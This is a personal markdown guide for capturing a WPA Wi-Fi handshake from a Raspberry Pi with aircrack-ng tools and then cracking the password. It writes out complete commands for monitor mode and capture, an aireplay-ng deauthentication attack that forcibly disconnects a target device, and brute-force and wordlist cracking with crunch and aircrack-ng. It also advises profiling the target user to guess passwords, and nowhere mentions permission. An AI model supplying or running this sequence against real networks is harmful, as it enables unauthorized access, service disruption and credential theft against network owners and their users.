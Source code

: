 # Get Wi-fi Handshake
>This is just a reminder for me to keep in mind how to get the wi-fi handshake while monitoring particular wi-fi signal.
>I used Wi-fi Adaptor plugged into Raspberry Pi running NOOBS.
## Connecting Raspberry Pi
>Open terminal, make sure `SSH` is enabled in your raspberry pi.
```
$ ssh <userName>@<IP>
```
>Example: `ssh pi@192.168.1.100`.
>If it ask you something, type `yes` and then enter your user password.
## Before Starting
```
$ sudo apt-get update
$ sudo apt-get upgrade
```
## Downloading Airmon-ng
```
$ sudo apt-get install -y aircrack-ng
```
## Checking Available Wi-fi Adaptors
>Since you have 2 wi-fi adaptors, make sure you use one for monitoring while using other to control your raspberry pi.
>You could either checking your adaptors by;
```
$ ifconfig
```
>or, since you already installed `airmon-ng`
```
$ sudo airmon-ng
```
>You will see `wlan0` and `wlan1` AND their IP's. Keep in mind which one is which.

## Starting Monitoring
```
$ sudo airmon-ng start wlan0
```
>This code will start monitoring mode for `wlan0`. If you were connecting the raspberry pi from this adaptor, your connection will stop.
>After this code, you will also see that the name of `wlan0` turns to `wlan0mon`. This is the name you will use after this point.
```
$ sudo airodump-ng wlan0mon
```
>This line will list you all the available wi-fi signals and their properties for you. `BSSID`,`DATA`,`CH` and so on.
>After choosing one, press `ctrl+c` to stop listing.

## Getting the Handshake
```
$ sudo airodump-ng --bssid <BSSID> --channel <CH> --write <namehandshakedocument> wlan0mon
```
>Example: `sudo airodump-ng --bssid EC:08:6B:C7:24:CA --channel 1 --write handshake wlan0mon`.
>This will start documentation with the name of `handshake`.
>To get the handshake, at least one device should connect to that wi-fi. If you can not;

### Deauth Attack
>With this attack, you can drop one device already connected to wi-fi. And while the device trying to reconnect, you will get the handshake.
>To do this attack while listening the wi-fi, you should open a new terminal window and connect to raspberry pi again.
>After that,
```
$ sudo airodump-ng --bssid <BSSID> --channel <CH> wlan0mon
$ sudo aireplay-ng --deauth <MSECONDS> -a <BSSID> -c <TARGERDEVICEMACADDRESS> wlan0mon
```
>Example: `sudo aireplay-ng --deauth 1000 -a EC:08:6B:C7:24:CA -c 28:3F:69:46:2C:F2 wlan0mon`.
-Tip: The greater `MSECONDS` is, the longer that device gets hard time connecting to wi-fi.
>After the attack, at the first terminal, you shoul be able to see `WPA handshake: EC:08:6B:C7:24:CA` on top.

## Decrypting
>This is the hard part. You have the handshake but, it is still encrypted. However, there are few methods to decrypt.
>Your `handshake` document will be waiting at `/home/pi`. You will see some new documents, you will only going to need the one named `handshake.cap`.

### Aircrack-ng
>You could try using `aircrack-ng` but, it will take so much time.
```
$ sudo aircrack-ng handshake.cap
```
### Listing All Combinations
```
$ sudo crunch <NUMBER> <NUMBER> <CHARACTERS> -a <FILENAME> <SPECIALS>
```
>Example: ``sudo cruch 4 6 123ab -a word-list -t a@@@@b`.
>What this line do is, listing all the possible combination password that has min 4, max 6 characters; the characters/numbers of 1 2 3 a and b will be used and that starts with a and ends with b.
>Since passwords are long and complicated than just normal texts, I would guess this will also take some time.

### Making Your Own rockyou List
>`rockyou.txt` is a list of common password on internet. And this is where things gets interesting. Know your target, observe the user, try to guess possible key words and write them all.
>After you are done with rockyou list,
```
$ sudo aircrack-ng handshake.cap -w rockyou
```
>This will compare all the possible passwords and give you the result. It could fail or success, depends on how good your rockyou list.

## To Turn Your Adaptor Back On
```
$ sudo airmon-ng stop wlan0mon
```
